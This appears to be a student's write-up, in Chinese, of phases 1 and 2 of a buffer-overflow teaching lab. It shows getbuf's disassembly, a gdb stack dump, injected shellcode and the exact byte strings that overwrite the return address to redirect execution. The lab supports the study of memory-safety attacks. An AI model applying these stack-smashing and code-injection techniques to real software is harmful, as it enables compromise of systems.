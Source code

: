 ## 102
### phase1

```c
00000000004017b5 <getbuf>:
  4017b5:	48 83 ec 18          	sub    $0x18,%rsp
  4017b9:	48 89 e7             	mov    %rsp,%rdi
  4017bc:	e8 94 02 00 00       	callq  401a55 <Gets>
  4017c1:	b8 01 00 00 00       	mov    $0x1,%eax
  4017c6:	48 83 c4 18          	add    $0x18,%rsp
  4017ca:	c3                   	retq  
```
注意到栈空间为 0x18 字节，填充24个字节垃圾信息后跟上touch1()函数首地址：00000000004017cb

**答案**：
```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cb 17 40 00 00 00 00 00
```


### phase2

注入代码：
```txt

inject_code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf 80 2d e5 21       	mov    $0x21e52d80,%edi
   5:	c3                   	retq       
```

调试得到栈顶地址(注入代码地址)：0x5565d3a8
```c
(gdb) x/80xb $rsp
0x5565d3a8:     0xbf    0x80    0x2d    0xe5    0x21    0xc3    0x00    0x00
0x5565d3b0:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5565d3b8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5565d3c0:     0xf9    0x17    0x40    0x00    0x00    0x00    0x00    0x00
0x5565d3c8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5565d3d0:     0x6c    0x1f    0x40    0x00    0x00    0x00    0x00    0x00
0x5565d3d8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5565d3e0:     0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4
0x5565d3e8:     0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4
0x5565d3f0:     0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4    0xf4
```
**答案：**
```txt
bf 80 2d e5 21 c3 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a8 d3 65 55 00 00 00 00
f9 17 40 00 00 00 00 00
```

